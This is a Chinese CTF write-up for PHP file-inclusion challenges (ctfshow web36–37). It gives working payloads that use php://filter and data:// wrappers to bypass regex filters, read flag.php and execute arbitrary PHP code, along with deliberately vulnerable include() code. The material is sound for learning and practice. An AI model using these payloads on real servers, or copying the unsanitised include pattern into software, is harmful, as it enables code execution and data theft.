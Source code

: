 本题相较于35,增加了数字的过滤,看了hint

在换行符生效之前,%0a中的0会被匹配到,但是php中如果使用变量做include参数,甚至可以不用空格

payload

```php
c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

### web37

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

本题需要在不匹配到flag的情况下包含flag.php

起初尝试了%0a,php://filter,数组绕过都失败了

查看hint,发现可以使用data://伪协议

payload

```php
c=data://text/plain;base64,PD9waHAgaW5jbHVkZSgnZmxhZy5waHAnKT8%2b
```

##### data://伪协议

自PHP5.2.0起,数据流封装器开始有效,主要用于数据流的读取,如果传入的数据是php代码,就会执行任意代码使用方法如下:

`data://text/plain,<?php phpinfo();?>`

`data://text/plain;base64,xxxxxxxxx(base64编码后的数据)`

利用data://时,PHP配置文件需开启allow_url_include和allow_url_fopen

data://伪协议示例代码如下

```php
<?php
    $filename=$_GET['filename'];
	include($filename);
?>
```

通过data://伪协议传送`<?php phpinfo();?>`代码的base64编码,这样就可以执行代码
